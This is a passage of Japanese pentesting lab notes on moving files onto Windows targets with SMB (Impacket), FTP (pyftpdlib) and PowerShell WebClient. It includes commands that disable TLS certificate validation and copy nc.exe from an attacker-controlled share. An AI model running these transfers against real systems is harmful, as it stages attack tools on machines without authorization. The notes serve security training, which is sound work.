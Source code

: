 - PowerShell ダウンロードの別のエラーは、証明書が信頼されない場合、SSL/TLS セキュア チャネルに関連しています。次のコマンドでそのエラーをバイパスできる
```powershell
 [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```


#### SMB

- SMBサーバーから現在の作業ディレクトリにファイルをダウンロード
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

- 新しいバージョンの Windows は、次のコマンドで確認できるように、認証されていないゲストのアクセスをブロックする
- Impacket SMBサーバーを使用してユーザー名とパスワードを設定し、SMBサーバーをWindowsターゲットマシンにマウントできる
```cmd
copy \\192.168.220.133\share\nc.exe
```

- SMBで新しいユーザーを作る
```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

- SMBのマウント、ユーザー名・パスワード
```cmd-session
net use n: \\192.168.220.133\share /user:test test
```

#### FTPダウンロード
- ファイルを転送する別の方法は、ポートTCP/21とTCP/20を使用するFTP（ファイル転送プロトコル）を使用すること
- FTP クライアントまたは PowerShell Net.WebClient を使用して、FTP サーバーからファイルをダウンロードできる
- Python3 pyftpdlibモジュールを使用して、攻撃ホストにFTPサーバーを構成できます。
- 次のコマンドでインストールできる
```shell
sudo pip3 install pyftpdlib
```

- デフォルトでは、pyftpdlibはポート2121を使用するため、ポート番号21
- ユーザーとパスワードを設定しない場合、匿名認証はデフォルトで有効になる
```shell-session
sudo python3 -m pyftpdlib --port 21
```

- PowerShellを使用してFTPサーバーからファイルを転送する
```powershell-session
 (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- リモートマシンでシェルを取得すると、インタラクティブシェルがない可能性がある
- その場合は、FTPコマンドファイルを作成してファイルをダウンロードすることができる
- まず、実行したいコマンドを含むファイルを作成し、FTPクライアントを使用してそのファイルを使用してそのファイルをダウンロードする必要がある
```cmd
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
